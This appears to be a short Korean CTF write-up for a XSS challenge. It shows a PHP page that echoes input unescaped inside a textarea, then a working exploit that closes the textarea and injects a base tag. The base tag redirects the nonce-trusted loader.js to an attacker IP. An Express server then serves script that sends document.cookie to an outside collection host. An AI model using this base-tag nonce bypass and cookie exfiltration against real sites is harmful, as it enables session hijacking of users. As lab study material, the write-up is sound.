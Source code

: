 ```php
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS Blood</title>
    <link href="./bootstrap.min.css" rel="stylesheet">
    <style>
        body {
            background-color: #f8f9fa;
        }
        .form-container {
            background: white;
            padding: 30px;
            border-radius: 10px;
            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
        }
        .form-header {
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <div class="container mt-5">
        <div class="row justify-content-center">
            <div class="col-md-8 col-lg-6">
                <div class="form-container">
                    <textarea class="form-control" disabled>Welcome, <?= $payload ?></textarea>
                </div>

                <script src="./loader.js" nonce="<?=$nonce?>"></script>
            </div>
        </div>
    </div>
</body>
</html>
```

그냥 스크립트 삽입으로는 xss 안터지지만
```
http://13.125.240.40:8888/xss.php?p=a</textarea><base href="//222.121.122.208">
```

textarea 끝내고 base 사용해서 nonce retargeting 해 `/loader.js`가 내 서버로 요청하게 한다.

```js
const express = require('express');

const app = express();

app.listen(80);

app.use((req, res, next) => {
  res.send(`window.open('https://xjjcbot.request.dreamhack.games?q='+document.cookie)`);
});
```

